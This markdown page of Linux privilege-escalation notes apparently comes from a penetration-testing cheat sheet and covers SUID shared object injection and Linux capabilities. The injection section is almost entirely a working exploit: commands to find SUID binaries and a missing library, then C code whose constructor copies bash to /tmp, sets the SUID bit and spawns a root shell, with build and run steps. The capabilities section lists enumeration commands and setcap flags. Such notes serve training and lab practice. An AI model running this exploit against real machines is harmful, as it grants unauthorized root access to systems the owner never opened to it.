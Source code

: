 ## Shared Object Injection

First output all SUID binaries
```bash
find / -type f -perm -04000 -ls 2>/dev/null
````
List packages -> version enumeration!
```bash
dpkg -l | grep #for the package
```
Run strace to check if there missing binaries
```bash
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
```
Impersonate directory and file to replace missing SUID: `mkdir /home/user/.config | cd /home/user/.config` 
```c
#include <stdio.h>
#include <stdlib.h>
static void inject() __attribute__((constructor));

void inject() {system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");}
```
Save libcalc.c 
```bash
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
/usr/local/bin/suid-so
```

## Capabilities

Capabilities are attribute based access control mechanism for the Linux Kernel to grant permission to binary to be able to perform specific privileged actions. 

Check the capabilities
```bash
getcap -r / 2>/dev/null
find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
```
Extensive list of all possible capabilities on [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities) and abusing them.

Capability Values and `setcap`
```bash
= #  sets the specified capability for the executable, but does not grant any privileges

+ep # grants the effective and permitted privileges for the specified capability to the executable

+ei # grants sufficient and inheritable privileges for the specified capability to the executable

+p # grants the permitted privileges for the specified capability to the executable

setcap cap_net_bind_service=$value /$path/$to/$bin
```
